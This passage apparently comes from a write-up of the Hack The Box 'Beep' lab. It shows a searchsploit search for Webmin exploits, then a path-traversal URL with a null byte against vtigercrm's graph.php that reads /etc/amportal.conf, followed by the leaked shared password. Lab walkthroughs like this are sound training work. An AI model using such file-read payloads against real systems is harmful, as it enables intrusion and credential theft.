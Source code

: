 ![](images/5.png)

After try to login with some default username/password, the web app redirect to login page with uri `/session_login.cgi`

```
┌──(Hades㉿10.10.14.5)-[1.9:29.5]~/walkthrough/hackthebox/beep
└─$ searchsploit Webmin cgi              
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
<snip>
Webmin 1.5 - Web Brute Force (CGI)                  | multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Exec | unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities             | cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit | cgi/remote/46201.rb
Webmin 1.x - HTML Email Command Execution           | cgi/webapps/24574.txt
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (M | linux/webapps/47330.rb
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### LFI leaked Credential

At exploit `php/webapps/37637.pl`, I saw the LFI Exploit showing the amportal.conf contain password `jEhdIekWmdjE`. This password have been used to any account listed in file.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

```
<snip>
AMPDBPASS=jEhdIekWmdjE
AMPMGRPASS=jEhdIekWmdjE
FOPPASSWORD=jEhdIekWmdjE
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```
